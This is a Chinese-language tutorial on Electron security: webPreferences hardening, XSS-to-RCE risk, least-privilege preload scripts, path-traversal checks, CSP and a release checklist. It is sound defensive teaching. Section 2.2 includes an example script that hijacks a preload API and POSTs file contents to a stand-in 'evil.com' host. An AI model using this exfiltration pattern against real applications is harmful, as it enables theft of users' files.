

# 05 — 安全基础与 webPreferences 配置

> 对应大纲：安全基础 | 预计时间：1 天
> 面试可答：Electron 安全的核心原则是"最小权限"——渲染进程默认不能访问 Node.js，需要通过 preload + contextBridge 暴露有限的 API。三个关键配置是 `contextIsolation: true`（隔离 JS 上下文）、`sandbox: true`（启用 Chromium 沙箱）、`nodeIntegration: false`（禁止渲染进程直接 require）。XSS 在 Electron 中可以升级为 RCE（远程代码执行），所以安全配置不是可选项，而是必须项。

> **为什么安全篇要放在功能篇之前？**
> 在普通 Web 开发中，XSS 的危害是偷 Cookie、篡改页面。但在 Electron 中，如果配置不当，XSS 可以通过 Node.js API 读取任意文件、执行系统命令、安装恶意软件——这就是 XSS → RCE 攻击链。先学安全，再写功能，才能从第一行代码开始就避免埋坑。

---

## 1. 攻击面：XSS → RCE

### 1.1 普通 Web 应用 vs Electron 应用



### 1.2 实际攻击示例

假设你的应用有一个搜索功能，用户输入直接插入 DOM（XSS 漏洞）：

```typescript
// ❌ 危险代码：直接插入用户输入
document.getElementById('results').innerHTML = searchResults;
```

如果 `searchResults` 被注入了恶意脚本：

```html

```

在 `nodeIntegration: true` 的配置下，这段代码会：
1. 读取系统文件 `/etc/passwd`
2. 通过 HTTP 发送给攻击者的服务器

在 `nodeIntegration: false` + `contextIsolation: true` 的配置下，`require` 不可用，这段脚本会报错，攻击失败。

---

## 2. 三个关键安全配置

### 2.1 nodeIntegration

```typescript
webPreferences: {
  nodeIntegration: false,  // ✅ 默认值，保持不变
}
```

| 值 | 效果 |
|----|------|
| `false`（默认） | 渲染进程中不能 `require()`，不能访问 Node.js API |
| `true` | 渲染进程中可以直接 `require('fs')`、`require('child_process')` 等 |

**永远不要设为 `true`**，除非你完全信任渲染进程中运行的所有代码（包括第三方依赖）。

### 2.2 contextIsolation

```typescript
webPreferences: {
  contextIsolation: true,  // ✅ 默认值，保持不变
}
```

| 值 | 效果 |
|----|------|
| `true`（默认） | preload 和页面脚本运行在隔离的 JS 上下文中 |
| `false` | preload 和页面共享同一个全局上下文 |

**为什么不能关闭**：如果 `contextIsolation: false`，页面脚本可以覆盖 preload 中定义的任何函数：

```typescript
// preload 中定义了安全的 readFile
window.electronAPI = { readFile: safeReadFile };

// 恶意页面脚本可以覆盖它
window.electronAPI.readFile = (path) => {
  // 劫持 API，读取任意文件后发给攻击者
  const content = originalReadFile(path);
  fetch('https://evil.com/steal', { method: 'POST', body: content });
  return content;
};
```

开启 `contextIsolation` 后，`contextBridge.exposeInMainWorld` 暴露的 API 是**只读的、不可覆盖的**。

### 2.3 sandbox

```typescript
webPreferences: {
  sandbox: true,  // ✅ 默认值，保持不变
}
```

| 值 | 效果 |
|----|------|
| `true`（默认） | 启用 Chromium 沙箱，限制渲染进程的系统调用能力 |
| `false` | 关闭沙箱，渲染进程有更多系统权限 |

沙箱模式下，即使 preload 脚本中的 Node.js 能力也受到限制——只有部分 Node.js API 可用（如 `events`、`timers`、`url`），而 `fs`、`child_process`、`path` 等模块不可用。

> **注意**：沙箱模式下，preload 中不能直接 `require('fs')`。文件读写等操作必须通过 IPC 发送给主进程处理。这是正确做法——主进程才应该拥有系统能力。

---

## 3. 安全配置速查表

### 3.1 生产环境推荐配置

```typescript
const win = new BrowserWindow({
  webPreferences: {
    // === 安全三件套 ===
    contextIsolation: true,   // ✅ 必须
    sandbox: true,            // ✅ 必须
    nodeIntegration: false,   // ✅ 必须

    // === 预加载 ===
    preload: path.join(__dirname, 'preload.js'),

    // === 可选加固 ===
    webSecurity: true,        // ✅ 保持同源策略
    allowRunningInsecureContent: false,  // ✅ 禁止 HTTPS 页面加载 HTTP 资源
    navigateOnDragDrop: false, // 禁止拖放文件导致页面导航
  },
});
```

### 3.2 各配置项的安全影响

| 配置项 | 安全影响 | 推荐值 |
|--------|---------|--------|
| `contextIsolation` | 关闭 → preload API 可被页面脚本劫持 | `true` |
| `sandbox` | 关闭 → 渲染进程有更多系统调用能力 | `true` |
| `nodeIntegration` | 开启 → XSS 直接升级为 RCE | `false` |
| `webSecurity` | 关闭 → 允许跨域请求、加载混合内容 | `true` |
| `allowRunningInsecureContent` | 开启 → HTTPS 页面可加载 HTTP 资源 | `false` |
| `navigateOnDragDrop` | 开启 → 拖放文件可导致页面跳转 | `false` |

---

## 4. preload 脚本的安全编写规范

### 4.1 最小暴露原则

preload 脚本的核心原则：**只暴露渲染进程真正需要的方法，不暴露底层能力**。

```typescript
// ❌ 错误：暴露了整个 ipcRenderer
contextBridge.exposeInMainWorld('electron', {
  ipcRenderer: ipcRenderer,  // 渲染进程可以发送任意 IPC 消息！
});

// ❌ 错误：暴露了通用的 invoke 方法
contextBridge.exposeInMainWorld('api', {
  invoke: (channel: string, ...args: any[]) =>
    ipcRenderer.invoke(channel, ...args),  // 渲染进程可以调用任意 channel！
});

// ✅ 正确：只暴露特定的方法
contextBridge.exposeInMainWorld('electronAPI', {
  readFile: (path: string) => ipcRenderer.invoke('file:read', path),
  saveFile: (path: string, content: string) =>
    ipcRenderer.invoke('file:save', path, content),
  getAppVersion: () => ipcRenderer.invoke('app:version'),
});
```

### 4.2 输入校验

在主进程的 IPC handler 中校验输入参数：

```typescript
// 主进程
ipcMain.handle('file:read', async (_event, filePath: string) => {
  // 校验路径：防止路径遍历攻击
  const normalizedPath = path.resolve(filePath);
  const allowedDir = app.getPath('documents');

  // ⚠️ 仅用 startsWith 做前缀匹配不安全：
  // /Users/x/DocumentsEvil/secret.txt 也能通过 /Users/x/Documents 的前缀检查
  // 必须补上路径分隔符（或完全相等）判断
  if (normalizedPath !== allowedDir && !normalizedPath.startsWith(allowedDir + path.sep)) {
    throw new Error('只能读取 Documents 目录下的文件');
  }

  return await fs.promises.readFile(normalizedPath, 'utf-8');
});
```

### 4.3 不要在 preload 中存储敏感数据

```typescript
// ❌ 错误：preload 中存储 token
let authToken = 'secret-token-123';
contextBridge.exposeInMainWorld('api', {
  getToken: () => authToken,
});

// ✅ 正确：token 存在主进程，通过 IPC 按需获取
// 主进程
let authToken = 'secret-token-123';
ipcMain.handle('api:fetch', async (_event, url: string) => {
  const response = await fetch(url, {
    headers: { Authorization: `Bearer ${authToken}` },
  });
  return response.json();
});
```

---

## 5. CSP（Content Security Policy）基础配置

### 5.1 什么是 CSP？

CSP 是一种 HTTP 响应头（或 HTML meta 标签），告诉浏览器只允许加载和执行来自特定来源的资源。在 Electron 中，CSP 是防止 XSS 的第二道防线。

### 5.2 在 Electron 中配置 CSP

**方式一：HTML meta 标签**（推荐，简单直接）

```html
<head>
  <meta
    http-equiv="Content-Security-Policy"
    content="
      default-src 'self';
      script-src 'self';
      style-src 'self' 'unsafe-inline';
      img-src 'self' data:;
      font-src 'self';
      connect-src 'self';
    "
  />
</head>
```

**方式二：主进程通过 webContents 设置**

```typescript
win.webContents.session.webRequest.onHeadersReceived((details, callback) => {
  callback({
    responseHeaders: {
      ...details.responseHeaders,
      'Content-Security-Policy': [
        "default-src 'self'; script-src 'self'; style-src 'self' 'unsafe-inline'",
      ],
    },
  });
});
```

### 5.3 CSP 指令速查

| 指令 | 控制范围 | 推荐值 |
|------|---------|--------|
| `default-src` | 默认策略（未指定的资源类型） | `'self'` |
| `script-src` | JavaScript 加载和执行 | `'self'` |
| `style-src` | CSS 加载 | `'self' 'unsafe-inline'` |
| `img-src` | 图片加载 | `'self' data:` |
| `font-src` | 字体加载 | `'self'` |
| `connect-src` | fetch / XHR / WebSocket | `'self'` |
| `media-src` | 音视频 | `'self'` |
| `object-src` | 插件（Flash 等） | `'none'` |
| `base-uri` | `<base>` 标签 | `'self'` |
| `form-action` | 表单提交目标 | `'self'` |

### 5.4 CSP 常见问题

**问题 1：内联脚本被阻止**

```html
<!-- ❌ CSP 的 script-src 'self' 会阻止内联脚本 -->
<script>
  document.getElementById('btn').addEventListener('click', () => {});
</script>

<!-- ✅ 方案一：将 JS 放到外部文件 -->
<script src="app.js"></script>

<!-- ✅ 方案二：使用 nonce（每次请求生成唯一值）-->
<script nonce="random-value">
  document.getElementById('btn').addEventListener('click', () => {});
</script>
```

**问题 2：内联样式被阻止**

```html
<!-- style-src 'self' 会阻止内联样式 -->
<!-- 解决：添加 'unsafe-inline'（Electron 桌面应用中风险较低）-->
<meta http-equiv="Content-Security-Policy"
  content="style-src 'self' 'unsafe-inline'">
```

**问题 3：eval 被阻止**

```html
<!-- ❌ CSP 默认禁止 eval -->
<script>
  const obj = eval('({ a: 1 })');  // 被阻止
</script>

<!-- ✅ 避免使用 eval，用 JSON.parse 替代 -->
<script>
  const obj = JSON.parse('{"a": 1}');
</script>
```

---

## 6. 安全 Checklist

在上线前，逐条检查以下安全项：

### 6.1 webPreferences 检查

- [ ] `contextIsolation: true`（默认值，确认未被覆盖）
- [ ] `sandbox: true`（默认值，确认未被覆盖）
- [ ] `nodeIntegration: false`（默认值，确认未被覆盖）
- [ ] `webSecurity: true`（默认值，确认未被覆盖）

### 6.2 preload 检查

- [ ] 没有暴露整个 `ipcRenderer` 对象
- [ ] 没有暴露通用的 `invoke(channel, ...args)` 方法
- [ ] 只暴露了特定的、经过审查的方法
- [ ] 敏感数据（token、密钥）不存储在 preload 中

### 6.3 主进程检查

- [ ] IPC handler 中校验了输入参数
- [ ] 文件操作限制了路径范围（防止路径遍历）
- [ ] 外部 URL 通过 `shell.openExternal` 打开（而不是 `loadURL`）
- [ ] 自定义协议通过 `protocol.handle` 注册，且 handler 校验了请求来源（旧的 `register*` 系列 API 已弃用移除）

### 6.4 渲染进程检查

- [ ] 已配置 CSP（至少限制 `script-src 'self'`）
- [ ] 用户输入经过转义后再插入 DOM（防止 XSS）
- [ ] 没有使用 `innerHTML` 插入未转义的内容
- [ ] 没有使用 `eval()` 或 `new Function()`

### 6.5 构建和分发检查

- [ ] 生产环境关闭了 DevTools（或限制了快捷键）
- [ ] 应用已正确签名（macOS 公证 / Windows EV 证书）
- [ ] 没有在代码中硬编码密钥或 token
- [ ] `.env` 文件已加入 `.gitignore`

---

## ✏️ 练习

### 练习 1：验证安全配置

**要求**：
1. 在渲染进程的 `<script>` 中尝试 `require('fs')`，观察报错信息
2. 设置 `nodeIntegration: true` 后再试，观察结果
3. 恢复为 `nodeIntegration: false`，通过 `contextBridge` 暴露一个安全的 `readFile` 方法

**验收标准**：理解 `nodeIntegration: false` 时渲染进程无法 `require`，以及如何通过 preload 安全地暴露能力。

### 练习 2：编写安全的 preload 脚本

**要求**：
1. 编写一个 preload 脚本，暴露以下方法：`readFile`、`saveFile`、`getAppVersion`
2. 每个方法都通过 `ipcRenderer.invoke` 调用特定的 channel
3. 确保没有暴露通用的 `invoke` 方法或整个 `ipcRenderer` 对象

**验收标准**：渲染进程中只能调用这三个预定义的方法，不能发送任意 IPC 消息。

### 练习 3：配置 CSP

**要求**：
1. 在 HTML 中配置 CSP：`script-src 'self'; style-src 'self' 'unsafe-inline'`
2. 尝试用 `<script>` 标签写内联脚本，观察是否被阻止
3. 改为外部 JS 文件后，确认正常工作

**验收标准**：内联脚本被 CSP 阻止，外部 JS 文件正常加载。

---

## 🆚 与 Web 端安全机制的对比

| 维度 | 浏览器 Web 应用 | Electron 应用 |
|------|---------------|--------------|
| XSS 的危害上限 | 偷 Cookie、篡改页面（有沙箱兜底） | 配置不当可直接 RCE（执行系统命令） |
| 敏感 API 暴露面 | 无文件系统/进程能力 | preload 暴露不当即可被利用 |
| CSP 载体 | HTTP 响应头为主 | `file://` 协议无法用响应头，多用 `<meta>` 标签 |
| 防线层级 | 同源策略 + 浏览器沙箱 | contextIsolation + sandbox + preload 最小暴露 + CSP（多层防御） |

一句话：Web 端的 XSS 是"页面级事故"，Electron 端的 XSS 可能是"系统级事故"——所以 Electron 的安全配置不是可选项，而是必选项。

---

## 📝 面试回答模板

> **问：Electron 的安全模型是怎样的？**
>
> Electron 的安全模型围绕三个核心配置：`nodeIntegration`（默认 false）禁止渲染进程直接访问 Node.js；`contextIsolation`（默认 true）确保 preload 和页面脚本的 JS 上下文隔离，页面无法劫持 preload 暴露的 API；`sandbox`（默认 true）启用 Chromium 沙箱，限制渲染进程的系统调用。在此基础上，preload 脚本通过 `contextBridge.exposeInMainWorld` 暴露有限的、经过审查的安全 API。再配合 CSP 防止 XSS，形成多层防御。

> **问：为什么不能在渲染进程开启 nodeIntegration？**
>
> 因为渲染进程运行的是 Web 页面，天然面临 XSS 风险。如果开启了 `nodeIntegration: true`，XSS 漏洞就不再只是"偷 Cookie"的级别，而是可以 `require('child_process').exec()` 执行任意系统命令——这就是 XSS → RCE 攻击链。正确做法是保持 `nodeIntegration: false`，通过 preload + contextBridge 暴露有限的、经过安全审查的 API。

> **问：什么是 CSP？在 Electron 中怎么用？**
>
> CSP（Content Security Policy）是一种安全策略，通过限制页面可以加载和执行哪些资源来防止 XSS。在 Electron 中，在 HTML 的 `<head>` 中添加 `<meta http-equiv="Content-Security-Policy">` 标签即可。最基本的配置是 `script-src 'self'`，只允许加载和执行来自本地的脚本，阻止内联脚本和 eval。对于桌面应用，`style-src 'self' 'unsafe-inline'` 通常可以接受，因为内联样式在 Electron 中的安全风险较低。
